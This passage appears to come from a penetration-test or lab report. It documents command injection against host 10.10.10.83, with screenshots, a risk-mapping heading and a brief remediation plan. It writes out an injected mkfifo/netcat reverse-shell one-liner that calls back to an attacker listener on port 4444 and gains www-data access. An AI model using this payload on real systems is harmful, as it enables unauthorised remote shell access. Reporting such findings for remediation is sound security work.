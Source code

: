 	    ![image](image.png)
	
2. **Detailed Exploration**:
    - Command: 10.10.10.83 | ls -ail
    - Result: Identified root and www-data users with exploitable privileges.
	- ![Pasted image 20250403115825.png](Pasted%20image%2020250403115825.png)
3. **Reverse Shell**:
    - Set our machine to listen on port 4444.
    -![Pasted image 20250403120346.png](Pasted%20image%2020250403120346.png)
    
    - Injected command: 10.10.10.83 | rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.132.131 4444 >/tmp/f
    - ![Pasted image 20250403120428.png](Pasted%20image%2020250403120428.png)
    - Result: Established a connection as www-data, allowing us to view users (alice, bob, john).
	
	![Pasted image 20250403120522.png](Pasted%20image%2020250403120522.png)
	![Pasted image 20250403120532.png](Pasted%20image%2020250403120532.png)

	![Pasted image 20250403120558.png](Pasted%20image%2020250403120558.png)
#### 3.2.3 Risk Mapping

![Pasted image 20250403120719.png](Pasted%20image%2020250403120719.png)

#### 3.2.3 Remediation plan

- ✅ Prevent command execution in input fields.
- ✅ Restrict commands allowed in the input field.

---

### 3.3 Port 8081 Exploitation (Similar to 3.2)

#### 3.3.1 Explanation
